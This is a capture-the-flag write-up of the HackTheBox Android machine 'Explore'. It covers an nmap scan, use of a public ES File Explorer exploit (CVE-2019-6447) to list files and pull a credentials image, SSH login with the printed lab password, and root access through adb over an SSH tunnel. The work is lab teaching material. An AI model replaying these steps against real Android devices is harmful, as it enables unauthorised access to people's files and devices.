

# Hackthebox - Explore - Android


## Nmap

```bash
┌─[gabrielle@parrot]─[~]
└──╼ $sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.247
[sudo] password for gabrielle: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-04 11:26 EST
Nmap scan report for 10.10.10.247
Host is up (0.027s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
37827/tcp open     unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 04 Feb 2023 16:27:03 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest: 
|     HTTP/1.1 412 Precondition Failed
|     Date: Sat, 04 Feb 2023 16:27:03 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 501 Not Implemented
|     Date: Sat, 04 Feb 2023 16:27:08 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 04 Feb 2023 16:27:23 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 04 Feb 2023 16:27:08 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 04 Feb 2023 16:27:23 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 04 Feb 2023 16:27:23 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ??random1random2random3random4
|   TerminalServerCookie: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 04 Feb 2023 16:27:23 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|_    Cookie: mstshash=nmap
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.92%I=7%D=2/4%Time=63DE8756%P=x86_64-pc-linux-gnu%r(NUL
SF:L,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port37827-TCP:V=7.92%I=7%D=2/4%Time=63DE8755%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x200
SF:4\x20Feb\x202023\x2016:27:03\x20GMT\r\nContent-Length:\x2022\r\nContent
SF:-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r
SF:\nInvalid\x20request\x20line:\x20")%r(GetRequest,5C,"HTTP/1\.1\x20412\x
SF:20Precondition\x20Failed\r\nDate:\x20Sat,\x2004\x20Feb\x202023\x2016:27
SF::03\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,B5,"HTTP/1\.
SF:0\x20501\x20Not\x20Implemented\r\nDate:\x20Sat,\x2004\x20Feb\x202023\x2
SF:016:27:08\x20GMT\r\nContent-Length:\x2029\r\nContent-Type:\x20text/plai
SF:n;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20not\x20
SF:supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad\x20Re
SF:quest\r\nDate:\x20Sat,\x2004\x20Feb\x202023\x2016:27:08\x20GMT\r\nConte
SF:nt-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\
SF:nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20version:\
SF:x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDat
SF:e:\x20Sat,\x2004\x20Feb\x202023\x2016:27:23\x20GMT\r\nContent-Length:\x
SF:2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:
SF:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessionReq,
SF:DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x2004\x20Feb\x2
SF:02023\x2016:27:23\x20GMT\r\nContent-Length:\x2073\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInvalid\x
SF:20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\?`~\?\
SF:0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(TerminalSer
SF:verCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x2004
SF:\x20Feb\x202023\x2016:27:23\x20GMT\r\nContent-Length:\x2054\r\nContent-
SF:Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\
SF:nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x20mstsh
SF:ash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDa
SF:te:\x20Sat,\x2004\x20Feb\x202023\x2016:27:23\x20GMT\r\nContent-Length:\
SF:x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection
SF::\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01\0\0e
SF:\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=2/4%OT=2222%CT=1%CU=34246%PV=Y%DS=2%DC=I%G=Y%TM=63DE87
OS:C0%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=FE%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)OPS(O1=M539ST11NW6%O2=M539ST11NW6%O3
OS:=M539NNT11NW6%O4=M539ST11NW6%O5=M539ST11NW6%O6=M539ST11)WIN(W1=FFFF%W2=F
OS:FFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFFF)ECN(R=Y%DF=Y%T=40%W=FFFF%O=M539NNSNW
OS:6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Device: phone

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.00 seconds
```

## Port 2222

- If we lookup for exploit for this specific Banana studio ssh service, we find [this exploit](https://packetstormsecurity.com/files/163311/Android-2.0-FreeCIV-Arbitrary-Code-Execution.html). Seems to have been made for this specific box. So I will not use it. Plus it seems to require a password for ssh authentication so not really useful anyway.

## Port 5555

If we search about this port, it turns out to be adb service. We can find out more about it [here](https://book.hacktricks.xyz/network-services-pentesting/5555-android-debug-bridge).  
Let's install adb if we do not have it yet `sudo apt install android-tools-adb`
- `adb connect 10.10.10.247:5555`
- Kinda stuck here so moving to another port

## ES File explorer

- This one is an http port. Let's look it up and see if we find anything.
- We find [this exploit](https://www.exploit-db.com/exploits/50070)
- Looking at the code we can see we have the following commands for the exploit

```python
    print("Available commands : ")
    print("  listFiles         : List all Files.")
    print("  listPics          : List all Pictures.")
    print("  listVideos        : List all videos.")
    print("  listAudios        : List all audios.")
    print("  listApps          : List Applications installed.")
    print("  listAppsSystem    : List System apps.")
    print("  listAppsPhone     : List Communication related apps.")
    print("  listAppsSdcard    : List apps on the SDCard.")
    print("  listAppsAll       : List all Application.")
    print("  getFile           : Download a file.")
    print("  getDeviceInfo     : Get device info.")
```

- So I tried the following commands (output is stripped for more readability)

```bash
┌─[gabrielle@parrot]─[~/Documents/explore]
└──╼ $python3 exploit2.py listFiles 10.10.10.247

[STRIPPED]

┌─[gabrielle@parrot]─[~/Documents/explore]
└──╼ $python3 exploit2.py getDeviceInfo 10.10.10.247

[STRIPPED]

name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721

┌─[gabrielle@parrot]─[~/Documents/explore]
└──╼ $python3 exploit2.py listApps 10.10.10.247

[STRIPPED]

┌─[gabrielle@parrot]─[~/Documents/explore]
└──╼ $python3 exploit2.py listAppsPhone 10.10.10.247

[STRIPPED]

┌─[gabrielle@parrot]─[~/Documents/explore]
└──╼ $python3 exploit2.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)

```

- Bingo here! we have a creds.jpg image. Let's download it  


- `mv out.dat creds.jpg` we rename the outfile `xdg-open creds.jpg` we open it  

  

And we get a password along with a user name. `kristi:Kr1sT!5h@Rp3xPl0r3!`

- `ssh kristi@10.10.10.247 -P 2222` let's try to ssh with the creds provided
- It works  



- We can find the user find in sdcard  


## Privilege escalation

- Let's make an ssh tunnel `ssh -NL 5556:localhost:5554 -L 5557:localhost:5555 -p 2222 kristi@10.10.10.247` this way we can use adb through this tunnel (I followed [this tutorial](https://dontbelievethebyte.github.io/articles/2015/01/15/debug-remotely-on-android-via-ssh-tunnel/) for the setup)
- In another tab we run `killall adb`
- and then `adb devices` we see our target is listed  


- Now let's try to root with `adb root` it works  


- Let's search the root flag `find / -type f -name "root.txt" 2>/dev/null`

